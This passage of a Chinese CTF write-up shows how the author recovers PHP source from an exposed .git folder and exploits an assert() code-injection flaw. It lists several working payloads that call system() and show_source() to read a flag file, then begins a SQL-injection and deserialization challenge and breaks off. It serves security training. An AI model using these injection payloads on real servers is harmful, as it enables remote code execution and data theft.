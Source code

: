 ```
http://220.249.52.134:36295/.git/
```

我们拿githack直接扫一下，找到了一个flag.php，但没什么有用的，直接看看index.php，这里让我们发现了flag的踪迹

```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```

而且我们还发现了asser()函数，这个函数会将读入的代码当作php执行，而且page的参数没有进行任何过滤

> assert() 检查一个断言是否为 FALSE
>
> strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
>
> file_exists() 函数检查文件或目录是否存在。
>
> assert()函数会将括号中的字符当成代码来执行，并返回true或false



所以我们构造payload，这里有好几种方法

```
?page=' and show_source('templates/flag.php') and '

http://220.249.52.134:36295/?page=' and system("cat templates/flag.php") and '

?page=abc') or system("cat templates/flag.php");//
# 因为在strpos中只传入了abc，所以其肯定返回false，在利用or让其执行system函数，再用" // "将后面的语句注释掉
```

都可以获取到flag，总的来说还是比较容易的





### fakebook

#### 考点：SQL注入+反序列化

进入题目后，我们发现是一个注册界面，我们随便注册一下

![img](https://img-blog.csdnimg.cn/20200717203540603.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3hqMjg1NTU=,size_16,color_FFFFFF,t_70)

我们创建好了发现这个是可以点击进入的，观察URL，可能存在SQL注入的迹象
